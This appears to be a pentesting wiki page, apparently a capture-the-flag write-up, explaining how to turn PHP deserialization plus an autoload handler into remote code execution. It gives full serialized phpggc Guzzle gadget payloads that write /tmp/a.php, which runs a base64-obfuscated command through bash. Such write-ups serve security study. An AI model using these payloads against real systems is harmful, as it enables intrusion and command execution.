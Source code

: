 ```yaml
---
layout: page
title: PHP - Deserialization + Autoload Classes
description:
category: php-deserialization
toc:
  sidebar: left
---
```


First, you should check what are [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl_autoload_register + LFI/Gadget

We are in a situation where we found a **PHP deserialization in a webapp** with **no** library vulnerable to gadgets inside **`phpggc`**. However, in the same container there was a **different composer webapp with vulnerable libraries**. Therefore, the goal was to **load the composer loader of the other webapp** and abuse it to **load a gadget that will exploit that library with a gadget** from the webapp vulnerable to deserialization.

Steps:

- You have found a **deserialization** and there **isn’t any gadget** in the current app code
- You can abuse a **`spl_autoload_register`** function like the following to **load any local file with `.php` extension**
  - For that you use a deserialization where the name of the class is going to be inside **`$name`**. You **cannot use "/" or "."** in a class name in a serialized object, but the **code** is **replacing** the **underscores** ("\_") **for slashes** ("/"). So a class name such as `tmp_passwd` will be transformed into `/tmp/passwd.php` and the code will try to load it.\
    A **gadget example** will be: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

   if (preg_match('/Controller$/', $name)) {
       $name = "controllers/${name}";
   } elseif (preg_match('/Model$/', $name)) {
       $name = "models/${name}";
   } elseif (preg_match('/_/', $name)) {
       $name = preg_replace('/_/', '/', $name);
   }

   $filename = "/${name}.php";

   if (file_exists($filename)) {
       require $filename;
   }
   elseif (file_exists(__DIR__ . $filename)) {
       require __DIR__ . $filename;
   }
});
```

> [!TIP]
> If you have a **file upload** and can upload a file with **`.php` extension** you could **abuse this functionality directly** and get already RCE.

In my case, I didn’t have anything like that, but there was inside the **same container** another composer web page with a **library vulnerable to a `phpggc` gadget**.

- To load this other library, first you need to **load the composer loader of that other web app** (because the one of the current application won’t access the libraries of the other one.) **Knowing the path of the application**, you can achieve this very easily with: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my case, the composer loader was in `/www/frontend/vendor/autoload.php`)
- Now, you can **load** the others **app composer loader**, so it’s time to **`generate the phpgcc`** **payload** to use. In my case, I used **`Guzzle/FW1`**, which allowed me to **write any file inside the filesystem**.
  - NOTE: The **generated gadget was not working**, in order for it to work I **modified** that payload **`chain.php`** of phpggc and set **all the attribute**s of the classes **from private to public**. If not, after deserializing the string, the attributes of the created objects didn’t have any values.
- Now we have the way to **load the others app composer loader** and have a **phpggc payload that works**, but we need to **do this in the SAME REQUEST for the loader to be loaded when the gadget is used**. For that, I sent a serialized array with both objects like:
  - You can see **first the loader being loaded and then the payload**

```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```

- Now, we can **create and write a file**, however, the user **couldn’t write in any folder inside the web server**. So, as you can see in the payload, PHP calling **`system`** with some **base64** is created in **`/tmp/a.php`**. Then, we can **reuse the first type of payload** that we used to as LFI to load the composer loader of the other webapp t**o load the generated `/tmp/a.php`** file. Just add it to the deserialization gadget:

```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```

**Summary of the payload**

- **Load the composer autoload** of a different webapp in the same container
- **Load a phpggc gadget** to abuse a library from the other webapp (the initial webapp vulnerable to deserialization didn’t have any gadget on its libraries)
- The gadget will **create a file with a PHP payload** on it in /tmp/a.php with malicious commands (the webapp user cannot write in any folder of any webapp)
- The final part of our payload will use **load the generated php file** that will execute commands

I needed to **call this deserialization twice**. In my testing, the first time the `/tmp/a.php` file was created but not loaded, and the second time it was correctly loaded.
